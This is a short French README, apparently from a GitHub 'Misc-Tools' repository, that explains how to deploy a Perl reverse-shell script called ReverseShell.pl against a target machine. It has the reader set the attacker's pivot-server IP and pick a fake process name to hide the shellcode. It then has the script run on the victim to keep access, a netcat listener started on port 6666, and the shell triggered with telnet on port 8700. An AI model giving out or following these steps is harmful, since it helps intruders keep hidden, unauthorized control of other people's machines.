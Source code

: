 # Misc-Tools

1) Modifier la valeur des variables suivantes:                                                                                    
  - $publicip --> contient l'ip publique de l'attaquant, à savoir celle du serveur rebond.
  - $fakeprocess --> n'importe quel processus identifié sur la cible afin de camoufler le shellcode.
  - $reverse_shell_port (6666) --> le port cible sur lequel se connecter pour piloter le shell, l'ouvrir ou le fermer.
  - $port (8700) --> Le port de la machine victime, sur lequel se connecter pour lançer l'activation du shellcode via la commande "shell".                                                                        
2) Le script ./ReverseShell.pl doit être exécuté sur le la cible afin de pouvoir maintenir l'accès sur la machine distante.       
3) Exécuter le listener sur votre machine: 'nc -l -p 6666' pour écouter la future connexion de la machine cible.              
4) Lancer la commande d'activation du revershell distant: 'telnet $ip_publique_machine $port' (à remplacer par le port défini dans le script --> 8700 dans notre cas).

Enjoy!
